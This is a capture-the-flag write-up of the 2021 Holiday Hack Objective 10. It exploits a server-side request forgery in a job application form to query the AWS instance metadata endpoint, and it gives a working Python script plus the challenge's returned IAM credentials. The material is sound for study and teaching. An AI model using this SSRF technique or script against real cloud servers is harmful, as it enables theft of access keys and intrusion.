 # pugpug's 2021 Holiday Hack writeup

## Objective Solution

![Objective 10 description](img/hhc-2021-01.png)

Objective 10 asks us to retrieve the secret access key from the [Jack Frost Tower
job application server](https://apply.jackfrosttower.com/). Completing the IMDS
terminal gives us a hint to solving the objective: we need to access an [internal Amazon AWS
service](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
to obtain EC2 metadata. As we don't have direct access to the EC2 instance the job
application server is running on, there is likely an SSRF vulnerability on the website
where the web server will perform the request for us and return the data.

### Initial recon

Visiting the [job application page](https://apply.jackfrosttower.com/) gives us a simple
job application site:

![Jack Frost Tower Jobs](img/hhc-2021-02.png)

with a simple web form for submitting a job applicaton:

![Job Application web form](img/hhc-2021-03.png)

One thing stands out: there is a field in the form for a URL to a **Naughty List
Background Investigation (NLBI)** report. 

![NLBI field](img/hhc-2021-04.png)

If the web server uses the URL in the web form to request data, it may be possible
to abuse this field to request data that normally isn't available. 

### Exploiting the SSRF vulnerability

By using the 
techniques from the IMDS terminal and the data from the page referenced in the hint,
we can submit a request to the web server and see if it retrieves data from the internal
address of `http://169.254.169.254/latest/meta-data`:

![Fake submission](img/hhc-2021-05.png)

After submitting this, we get back a page with what appears to be a broken image:

![Successful submission](img/hhc-2021-06.png)

Viewing the source of the web page shows a link to `images/{name}.png`, with the
name we submitted in the form:

``` html linenums="77" hl_lines="4"
<div class="col-sm-4">
<div class="card text-white bg-secondary mb-3" style="max-width: 20rem;">
  <div class="card-body">
  <img class="rounded mx-auto d-block" src="images/pugpug.jpg" width="200px" />
  </div>
</div>
</div>
```

If we open a terminal and visit that URL with curl or wget, we see that the
file actually contains the data we requested from the internal AWS metadata service:

![AWS metadata](img/hhc-2021-07.png)

### Automating the SSRF

The objective can be easily completed with just a browser and curl, but as I'm 
diving deeper into the application than just the objective, I wrote a quick Python
script to provide a CLI for requesting URLs from the service. It's based on a
template I developed after reading [0xdf](https://twitter.com/0xdf_)'s
[blog](https://0xdf.gitlab.io/), specifically his use of Python's `Cmd` module
to generate an easy to use CLI:

``` python linenums="1"
#!/usr/bin/env python3

import argparse
import cmd
import os
import requests
import random
import sys

# Generate a random name to avoid conflicts with others
name = 'pugpug{:03d}'.format(random.randint(1, 999))

# The payload, copied from ZAProxy
payload = {
    'inputName': name,
    'inputEmail': 'pug@pug.pug',
    'inputPhone': '313-555-1212',
    'inputField': 'Aggravated pulling of hair',
    'resumeFile': '',
    'additionalInformation': '',
    'submit': ''
}

# Send two requests to the web server: the application submission, then
# request the 'image', returning whatever we pull back.
#
# parser.url is the URL of the website, from argparse
def fetch(args):
    # Set the URL field to whatever is passed in the argument
    payload['inputWorkSample'] = args
    r = requests.get(parser.url, params = payload)
    r = requests.get(parser.url + f'images/{name}.jpg')
    return r.text

# The CLI module
class Term(cmd.Cmd):
    # Boilerplate to make the CLI more friendly.
    prompt = 'ssrf> '
    def emptyline(self):
        pass
    def postloop(self):
        print()
    def do_exit(self, args):
        return True
    def do_EOF(self, args):
        return True

    # Main cmd loop: fetch whatever is entered at the prompt via the SSRF on
    # the web server, and print the result.
    def default(self, args):
        print(fetch(args))

# Main program. We define two arguments:
#
# --file: retrieve a single URL/file and print it. Useful for one-shot
#         file retrieval and storage (e.g. ssrf.py --file https://google.com > google)
#
# --url: the top-leve URL to send requests to. Will come in handy if we're
#        able to duplicate the website functionality locally

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('--file', dest='filename', 
            required=False, type=str, help='Filename to fetch')
    parser.add_argument('--url', dest='url', 
            default='https://apply.jackfrosttower.com/',
            required=False, help='Top-level URL')
    parser = parser.parse_args()

    if parser.filename:
        print(fetch(parser.filename))
    else:
        term = Term()
        term.cmdloop()
```

(seriously, go follow `0xdf_` on twitter and read his blog, it's awesome)

### Retrieving the objective data

With this script, we can easily request the current security credentials from 
`http://169.254.169.254/latest/meta-data/iam/security-credentials`, then use the
`role` returned to fetch the access keys:

![AWS credentials](img/hhc-2021-08.png)

``` json
{
        "Code": "Success",
        "LastUpdated": "2021-05-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-05-02T18:50:40Z"
}
```
